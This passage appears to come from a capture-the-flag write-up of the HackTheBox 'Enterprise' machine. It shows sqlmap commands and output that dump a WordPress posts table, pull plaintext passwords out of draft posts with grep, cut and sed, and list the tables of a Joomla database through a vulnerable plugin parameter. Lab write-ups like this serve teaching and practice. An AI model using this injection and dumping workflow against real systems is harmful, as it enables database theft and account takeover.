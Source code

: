This prints a huge amount of output that’s difficult to show in the terminal. But it does also write it to a file as a `.csv`, so I can open it in Excel or even just `less -S` (turns off line wraps) to explore it. Or I can remember that it was three posts titled “Passwords” and use `grep`:

```

oxdf@parrot$ grep 'Passwords' ~/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv
66,http://enterprise.htb/?p=66,<blank>,<blank>,2017-09-06 15:40:30,<blank>,post,0,Passwords,open,1,0,draft,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,0000-00-00 00:00:00,2017-09-06 15:40:30,<blank>,open,<blank>,2017-09-06 14:40:30,<blank>
67,http://enterprise.htb/?p=67,<blank>,<blank>,2017-09-06 15:28:35,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:28:35,2017-09-06 15:28:35,<blank>,closed,<blank>,2017-09-06 14:28:35,<blank>
68,http://enterprise.htb/?p=68,<blank>,<blank>,2017-09-06 15:40:30,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:40:30,2017-09-06 15:40:30,<blank>,closed,<blank>,2017-09-06 14:40:30,<blank>

```

With some `cut` and `sed`, I can get the list of unique passwords:

```

oxdf@parrot$ grep 'Passwords' ~/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv | cut -d',' -f14 | sed 's/\\r\\n\\r\\n/\n/g' | sort -u | grep -v quickly
 
enterprisencc170
u*Z14ru0p#ttj83zS6
ZD3YxfnSjezg67JZ
ZxJyhGem4k338S2Y

```

The first line is a space, though I’d be surprised if that is a valid password.

The `joomla` DB doesn’t have any tables, but the `joomladb` table has a ton:

```

oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb --tables
...[snip]...
[72 tables]                      
+-------------------------------+
| edz2g_assets                  |
| edz2g_associations            |
| edz2g_banner_clients          |
| edz2g_banner_tracks           |
...[snip]...

```
